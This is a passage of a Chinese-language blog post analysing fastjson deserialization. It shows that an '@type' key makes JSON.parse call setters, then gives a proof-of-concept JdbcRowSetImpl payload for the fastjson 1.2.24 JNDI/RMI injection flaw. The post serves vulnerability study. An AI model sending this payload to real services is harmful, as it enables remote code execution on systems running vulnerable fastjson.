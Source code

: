 ```
    }
}

// 应用处
import com.alibaba.fastjson.JSON;

public class aaa {
    public static void main(String[] args) {
        String eneity = "{\"@type\":\"Person\", \"name\":\"lala\", \"age\": 13}";
        Object obj = JSON.parse(eneity);
        System.out.println(obj);
        String eneity2 = "{\"name\":\"lala\", \"age\": 13}";
        Object obj2 = JSON.parse(eneity2);
        System.out.println(obj2);
    }
}
```

输出为

```
set name
set age
Person{name='lala', age='13'}
{"age":13,"name":"lala"}
```

也就是有`@type`关键字时会调用set方法

也有很多文章说会调用get、is等方法，实际上我没遇到，还说这种调用有对类型的判断会导致不同，我试了文章提供了例子也不行

#### 无意义地单步调试几千下
然后为了大概了解，我们就可以单步调试了，因为涉及到解析引擎，总之很复杂，还存在bytecode找不到到情况，为了不漏过任何一个调用，反正点step over几千下就是了，直到console输出到上一步，打上断点再来一边，最后到调用处和调用堆栈是这样到

![2-1](https://milkfr.github.io/assets/images/posts/2019-07-22-analysis-java-deserialize-fastjson/2-1.png)

总之还是用了反射，获取了set方法，调用了，然后有没有`@type`的判断在`parseObject:322, DefaultJSONParser (com.alibaba.fastjson.parser)`中

其实只要知道了有了`@type`会调用set方法就可以，其实整个过程涉及到很多解析，能完全看懂太难了

### 0x03 1.2.24版本fastjson漏洞
有了上面两项分析，RMI-JNDI注入和`@type`，然后写一个PoC，就马上能理解这个版本到漏洞在哪里了

```
import com.alibaba.fastjson.JSON;

public class Payload {
    public static void main(String[] args) {
        String aa =   "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://127.0.0.1:1099/test\",\"autoCommit\":true}";
        JSON.parse(aa);
    }
}
```
